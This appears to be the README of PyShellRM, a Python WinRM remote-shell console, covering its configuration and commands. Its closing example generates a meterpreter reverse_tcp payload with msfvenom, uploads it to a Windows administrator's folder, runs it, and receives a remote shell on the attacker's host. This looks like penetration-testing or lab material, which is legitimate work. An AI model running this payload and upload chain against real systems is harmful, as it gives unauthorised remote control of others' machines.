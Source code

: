# PyShellRM

## Configuration

All configuration options are defined in the Protocol object.

1. Endpoint: The WinRM webservice endpoint
    * `http://server.com`

2. Transport: Transport type
    *  \[`plaintext`, `kerberos`, `ssl`, `ntlm`, `credssp`]

3. Username: The remote user's username
    *  `domain\user`

4. Password: The remote user's password
    *  `hunter2`

5. Server Cert Validation: Whether server certificate should be validated
    *  \[`validate`, `ignore`]

```Yaml
server:
    endpoint: http://10.10.10.1:5985/wsman
    transport: ntlm
    username: User
    password: Password
    server_cert_validation: ignore
```

## Commands

1. connect
2. list
3. hosts                              
4. set
5. unset
6. upload
7. shell
8. close
9. exit/quit

### Connect

Connect uses the defined Protocol object to attempt a WinRM connection.

Example:

```
pyshellrm:~$ connect server
[*] Connecting to http://10.10.10.1:5985/wsman
[+] Connected to http://10.10.10.1:5985/wsman
```

### List

Lists the current connect shells.

Example:

```
pyshellrm:~$ list
938891EA-A825-4871-864C-C5F58A3EA135
```

### Hosts

Lists the available hosts imported from the config.yml file.

Example:

```
pyshellrm:~$ hosts
server
```

### Set

Sets the current shell.

Example:

```
pyshellrm:~$ set 938891EA-A825-4871-864C-C5F58A3EA135
Current Shell: 938891EA-A825-4871-864C-C5F58A3EA135
```

### Unset

Unsets the current shell.

Example:

```
pyshellrm:~$ unset
```

### Upload

Uploads a file from `local_path` to `remote_path`.

Example:

```
pyshellrm:~$ upload /home/local/shell.exe "C:\Users\remote\shell.exe"
[*] Uploading file /home/local/shell.exe to C:\Users\remote\shell.exe
Sending chunk [0/14]
Sending chunk [1/14]
...
Sending chunk [13/14]
Sending chunk [14/14]
```

### Shell

Runs commands in a Powershell prompt. Press ctrl+c to exit.

Example:

```
pyshellrm:~$ shell
PS> whoami
[+] remoteserver\administrator
```

### Close

Closes the connection to the current shell.

### Exit/Quit

Exits PyShellRM.

## Example

First we'll generate an msfvenom payload.

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=9999 -f exe > shell.exe
```

Next we'll configure our Protocol.

```Yaml
server:
    endpoint: http://10.10.10.1:5985/wsman
    transport: ntlm
    username: Administrator
    password: hunter2
    server_cert_validation: ignore
```

Finally, we can launch the PyShellRM console and upload our reverse shell.

```
pyshellrm:~$ connect server
[*] Connecting to http://10.10.10.1:5985/wsman
[+] Connected to http://10.10.10.1:5985/wsman
pyshellrm:~$ set 85CB12CA-F0DB-468B-886B-2E4064C46727
Current Shell: 85CB12CA-F0DB-468B-886B-2E4064C46727
pyshellrm:~$ upload shell.exe "C:\Users\Administrator\shell.exe"
[*] Uploading file shell.exe to C:\Users\Administrator\shell.exe
Sending chunk [0/42]
Sending chunk [1/42]
...
Sending chunk [41/42]
Sending chunk [42/42]
pyshellrm:~$ shell
PS> ls
[+] 

    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        4/21/2019  11:08 AM                3D Objects
d-r---        4/21/2019  11:08 AM                Contacts
d-r---        4/22/2019   9:05 AM                Desktop
d-r---        4/22/2019   8:13 AM                Documents
d-r---        4/21/2019  11:08 AM                Downloads
d-r---        4/21/2019  11:08 AM                Favorites
d-r---        4/21/2019  11:08 AM                Links
d-r---        4/21/2019  11:08 AM                Music
d-r---        4/21/2019  11:08 AM                Pictures
d-r---        4/21/2019  11:08 AM                Saved Games
d-r---        4/21/2019  11:08 AM                Searches
d-r---        4/21/2019  11:08 AM                Videos
-a----        8/11/2019   1:00 PM          73802 shell.exe

PS> ./shell.exe
```

Callback received!

```
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.14.2
lport => 9999
[*] Started reverse TCP handler on 10.10.14.2:9999 
[*] Sending stage (179779 bytes) to 10.10.10.1
[*] Meterpreter session 1 opened (10.10.14.2:9999 -> 10.10.10.1:49692) at 1970-01-01 00:00:00 0000

meterpreter > getuid
Server username: REMOTESERVER\Administrator
```
